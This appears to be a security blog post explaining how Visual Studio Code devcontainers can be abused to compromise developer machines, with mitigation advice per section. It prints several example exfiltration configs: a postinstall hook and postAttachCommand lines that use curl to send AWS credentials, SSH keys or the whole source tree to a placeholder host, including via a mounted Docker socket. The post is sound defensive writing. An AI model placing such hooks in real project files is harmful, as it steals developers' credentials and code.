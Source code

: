 ```yaml
---
slug: exploiting-visual-studio-code-devcontainers
title: Exploiting Visual Studio Code Devcontainers
author: Jamie McCrindle
author_title: foldr
author_url: https://github.com/jamiemccrindle
author_image_url: https://avatars.githubusercontent.com/u/909696?s=60&v=4
tags: [cybersec, security, vsc, visual-studio-code, devcontainer]
---
```


To quote Scott Hanselman "Visual Studio Code Remote Development may change everything". They are a great way to build consistent development environments which can massively lower the friction for new people to contribute to a code base.

That said, they do create new paths to exploiting developer's machines and devcontainers are often opaque to existing security scanning tooling. This post is not about an specific vulnerability in devcontainers but more what potential paths to exploitation devcontainers represent.

It is also becoming increasingly common for open source projects to include devcontainer configuration, acclimatising developers to running new forms of potentially untrusted code on their local machines.

This post focuses on Remote - Containers that run in Docker on a developers machine.

# The risks

Compromising a developer's machine can often lead to further compromise. They will often contain a number of credentials that allow the developer to access various services e.g. SSH keys, AWS / GCE / Azure credentials, AD tokens etc. If these credentials are inside the devcontainer they are usually stored in the clear as the devcontainer docker container often does not have access to the host's credential manager.

Developers also often have elevated access both to their local machines as well as resources on the network.

Risks as a result of compromising a developer's machine include:

* Exfiltration of source code
* Exfiltration or exploitation of developer credentials e.g. SSH Keys, AWS / GCE / Azure credentials etc.
* Lateral movement inside the network

# Running malicious code inside a devcontainer

Your devcontainer is compromised if an attacker can execute malicious code inside it. Here are some of the ways this could happen.

## All the standard ways

Running any install or build commands in a code base could be used to run malicious code e.g.: 

* npm / yarn
* msbuild
* mvn / ant / gradle
* etc.

e.g. in a package.json you could have: 

```json
{
  "name": "super-useful-open-source-tool",
  "scripts": {
    // runs after npm install. a smart attacker would obfuscate this a little more
    "postinstall": "curl very-innocent.url -d @~/.aws/credentials"
  }
}
```

An attacker could also use a supply chain attack via a compromised dependency or use dependency confusion to introduce malicious code when the application is run.

Note, this kind of attack applies to running code outside of the devcontainer too.

::: info How to mitigate

* Check the build scripts of any untrusted code you install
* Run dependency scanning tools e.g. `npm audit` or snyk and address any warnings
* Make sure your artifact repository is safe from [dependency confusion attacks](https://portswigger.net/daily-swig/open-source-software-repositories-play-whack-a-mole-as-dependency-confusion-copycats-exceed-5-000)

:::

## Malicious extensions

Malicious extensions can be used to run arbitrary code in whichever environment Visual Studio Code is running in including devcontainers.

::: info How to mitigate

* Use trusted extensions only.

:::

## Untrusted devcontainer images

Devcontainers allow you to use arbitrary docker images for your development environment. If these have been compromised, it is trivial for attackers to run malicious code inside your devcontainer.

::: info How to mitigate

* Use signed / trusted docker images only
* Scan your devcontainer docker images for vulnerabilities

:::


## postCreateCommand, postStartCommand, postAttachCommand

`devcontainer.json` allows you to configure a number of commands that can run in the devcontainer docker container after the container is created, after the container has started and after Visual Studio Code attaches to the container. These are `postCreateCommand`, `postStartCommand` and `postAttachCommand` respectively.

e.g. a `devcontainer.json` file with this config this would upload all of the contents of the working directory including local .env, .npmrc files etc.

```json
{
    // send all the source inside the devcontainer somewhere. a smart attacker would obfuscate this a little more.
	"postAttachCommand": "tar -czvf /tmp/debug.tgz . && curl very-innocent.url --data-binary @/tmp/debug.tgz",
}
```

::: info How to mitigate

* Check the postCreateCommand, postStartCommand and postAttachCommand configuration in untrusted devcontainer.json files. 

:::

# Escaping onto the devcontainer host

Devcontainers can offer an additional layer of protection for a developers host machine but a number of common practices can make it easy to read files, write files or execute code on the host machine.

## Docker-from-docker

If your devcontainer does docker-from-docker i.e. where the docker socket is mounted into the devcontainer, an attacker has almost unfettered access to the host machine e.g. the following `devcontainer.json` could be used to upload your ssh keys to a remote location even if you're only sharing them into the container via an ssh-agent.

```json
{
    "mount": [ "source=/var/run/docker.sock,target=/var/run/docker.sock,type=bind" ],
    "postAttachCommand": "chmod a+x /var/run/docker.sock && docker run -v ${localEnv:HOME}:/tmp/home curlimages/curl very-innocent.url -d @/tmp/home/.ssh/id_rsa"
}
```

::: info How to mitigate

* Use [docker-in-docker](https://github.com/microsoft/vscode-dev-containers/tree/main/containers/docker-in-docker) instead
* Don't do docker-from-docker if you can help it.
* If you do have to run docker-from-docker take all the measures listed above to reduce the likelihood that malicious code can't be executed inside the devcontainer.

:::

## Mounts

It's common to mount host machine directories into the devcontainer docker container. Usually this is only the source directory but any path on the host machine could be mounted into the container e.g. the mount in this sample is from the [Microsoft docs on advanced containers](https://code.visualstudio.com/docs/remote/containers-advanced#_adding-another-local-file-mount) which binds a users home directory into the container, so it wouldn't look unusual. Developer home directories often contain things like SSH keys, AWS credentials etc.

The following could upload a developers ssh key to a remote location

```json
{
    "mounts": [
        "source=${localEnv:HOME}${localEnv:USERPROFILE},target=/host-home-folder,type=bind,consistency=cached"
    ],
    "postAttachCommand": "curl very-innocent.url -d /host-home-folder/.ssh/id.rsa"
}
```

::: info How to mitigate

* Check untrusted `devcontainer.json` files for suspicious mounts
* Don't mount anything you don't need into the devcontainer
* Limit the directories that docker will share with any containers

:::